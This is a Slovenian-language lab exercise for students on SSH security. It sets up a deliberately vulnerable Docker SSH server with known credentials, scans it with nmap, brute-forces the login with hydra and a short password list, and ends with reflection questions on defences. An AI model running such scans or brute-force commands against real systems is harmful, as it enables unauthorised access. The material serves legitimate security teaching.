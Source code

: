 # Testiranje SSH varnosti z Nmap in Hydra

📅 **Trajanje: 2 uri**

V tej vaji boste preizkusili dve ključni tehniki testiranja varnosti oddaljenih sistemov:
- odkrivanje odprtih vrat in storitev z orodjem `nmap`
- brute-force napad na SSH storitev z orodjem `hydra`

Namen vaje je pokazati, kako napadalci pridobijo informacije o sistemu in zakaj je zaščita SSH storitve in zapiranje neuporabljenih vrat ključna za varnost.

---

# 🐳 Priprava okolja z Dockerjem

Pred začetkom vaje vzpostavite ciljni sistem z Dockerjem na vašem host računalniku.  
Na voljo imate Docker image z ranljivim SSH strežnikom, ki omogoča testiranje napadov.

### 🔷 Korak 0: Zagon Docker SSH strežnika

Če še niste, najprej zgradite Docker image z imenom `dvws`:
```bash
docker build -t dvws .
```

Nato zaženite container:
```bash
docker run -d -p 2222:22 --name dvws-ssh dvws
```

SSH strežnik bo zdaj na voljo na host računalniku na naslovu `<target_ip>`, port `2222`, z uporabnikom `testuser` in geslom `test123`.

---

# 🧪 Testiranje SSH varnosti z Nmap in Hydra

SSH (Secure Shell) je standarden protokol za oddaljeno prijavo v strežnik. Šibka gesla ali odprte nepotrebne storitve omogočajo napadalcem hitro pridobitev dostopa.  
V tej vaji boste najprej s `nmap` ugotovili odprta vrata in storitve, nato pa z `hydra` preverili moč gesel.

---

## 1️⃣ Uvod

Cilj je, da se kot uporabniki naučimo kako:  
✅ uporabiti orodje Nmap za odkrivanje odprtih vrat in storitev  
✅ uporabiti orodje Hydra za preverjanje gesel na SSH  
✅ razumeti nevarnosti šibkih gesel in odprtih storitev

---

## 2️⃣ Aktivnost

### 🖥️ Navodila

Študenti boste izvedli naslednje korake in dokumentirali rezultate:

---

### 🔷 Korak 1: Skeniranje odprtih vrat z Nmap

Najprej preverite, katere storitve so dostopne na ciljnem sistemu:

```bash
nmap -sS -sV -O -p- <target_ip>
```

Parametri:
- `-sS` — SYN skeniranje (tišje)
- `-sV` — zazna različice storitev
- `-O` — zazna operacijski sistem (če je mogoče)
- `-p-` — skeniraj vsa vrata (1-65535)

Zapišite si:
- katera vrata so odprta
- katere storitve tečejo
- katero različico operacijskega sistema je zaznal

💡 Refleksija: zakaj zapirati neuporabljene porte?

---

### 🔷 Korak 2: Preveri SSH povezavo

Prepričajte se, da SSH storitev deluje:
```bash
ssh testuser@<target_ip> -p 2222
```
Geslo: `test123`

---

### 🔷 Korak 3: Ustvari seznam gesel

Če želite hitrejši test, ustvarite svoj seznam gesel:
```bash
echo -e "password
123456
test123
admin" > passwords.txt
```

---

### 🔷 Korak 4: Brute-force napad z Hydra

Uporabite Hydra za napad:
```bash
hydra -l testuser -P passwords.txt -s 2222 <target_ip> ssh
```

Parametri:
- `-l testuser` — uporabniško ime
- `-P passwords.txt` — seznam gesel
- `-s 2222` — številka vrat
- `<target_ip>` — IP naslov strežnika
- `ssh` — protokol

Hydra bo ob uspehu izpisal nekaj takega:
```
[22][ssh] host: <target_ip>   login: testuser   password: test123
```

---

## 3️⃣ Analiza in poročilo

Oddajte poročilo z naslednjimi vsebinami:
- Izpis rezultatov `nmap` (katere storitve/vrata so odprta)
- Izpis rezultatov `hydra` (ali je geslo najdeno)
- Posnetki zaslona obeh rezultatov
- Kratek komentar: zakaj je uporaba šibkih gesel nevarna in zakaj zapirati neuporabljene porte

---

## 4️⃣ Refleksija in analiza

- Kako bi zaščitili SSH strežnik pred brute-force napadi?
- Katere dodatne ukrepe (npr. omejitve po številu prijav, uporaba javno-zasebnih ključev, firewall) bi priporočili?
- Kako se spremeni rezultat, če uporabimo zelo močno geslo?

